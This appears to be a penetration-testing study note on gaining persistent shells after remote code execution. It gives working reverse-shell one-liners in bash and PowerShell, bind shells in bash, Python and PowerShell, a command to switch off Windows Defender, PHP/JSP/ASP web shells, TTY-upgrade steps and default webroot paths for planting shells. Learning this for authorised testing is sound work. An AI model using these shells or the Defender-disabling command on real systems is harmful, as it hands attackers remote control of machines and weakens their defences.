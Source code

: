 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Once a host has been compromised and we have RCE, setting up some form of persistent communication is a key part of [[5 - Post-Exploitation]].

## Types of Shells
### Reverse Shell
Connects back to our system and gives us control through a reverse connection. We setup a listener on our machine and then connect back to it from the target.
![[Netcat (nc)#Create a listener]]

Connecting back to our system with a shell is slightly more complex as it depends what we have available. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shells.

**Bash**
```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'
```

**Netcat**
![[Netcat (nc)#Create a simple reverse shell]]

**Powershell via CMD**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
> Sometimes we might be able to disable Windows defender Virus & Threat protection, allowing us to run the above:
> `Set-MpPreference -DisableRealtimeMonitoring $true`

> 1. `powershell -nop -c` creates a no profile (nop) 

## Bind Shells
Unlike a reverse shell, a Bind shell connects us to the *targets'* listening port. This means we are connecting to the target rather than them connecting to us (the opposite direction to a RS).

To create a bind shell, we need to listen on a port on the target and bind a shell to that port. Then on the tester machine we can us [[Netcat (nc)]] to connect to it.

Some challenges with bind shells however:
- We need an already active listener or be able to create one ourselves.
- It is typical for strict incoming firewall rules and NAT on the edge of the network (public-facing), so we would need to be on the internal network already.
- OS firewalls often block incoming connections that aren't associated with trusted network-based applications.

To setup a bind shell on the server, we need to define:
- the directory
- the shell
- the listener
- a pipeline (eg. a named pipe) : *a file that can be written and read by multiple processes*
- input & output redirection

**Bash**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lv 1234 >/tmp/f
```
> 1. Remove any existing `/tmp/f`
> 2. Create a named pipe at `/tmp/f` with `mkfifo`
> 3. Read input from `/tmp/f` with `cat`
> 4. Spawn an interactive bash shell with errors being redirected to stdout
> 5. Start a `nc` listener that writes to `/tmp/f`
> With this, any commands sent via the nc connection are written and then read from `/tmp/f`, executed and output is returned back down the connection.

**Python**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading TTY
To give us more terminal features (eg. a mouse, history, etc) we need to upgrade the TTY.
There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell
www-data@remotehost$ ^Z

alipali737@htb[/htb]$ stty raw -echo
alipali737@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```shell
alipali737@htb[/htb]$ echo $TERM

xterm-256color
```

```shell
alipali737@htb[/htb]$ stty size

67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

## Web Shells
This is a web script that accepts commands through HTTP params, executes the command and returns the output. There are two components to using these: Uploading the web shell and executing the shell.

A great benefit of these kind of shells is that they utilise the existing connection that would be allowed through a firewall.

### Writing a web shell
Web shells tend to be simple one line commands that take a command and execute them on the system. The following examples are all *GET* requests:

**PHP**
```
<?php system($_REQUEST["cmd"]); ?>
```

**JSP**
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP**
```
<% eval request("cmd") %>
```

### Uploading the web shell
We need to get our web shell script into the web root to be able to execute it. This can either be through a file upload vulnerability, or even an RCE could let us write the file on the target system ourself.

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | c:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |
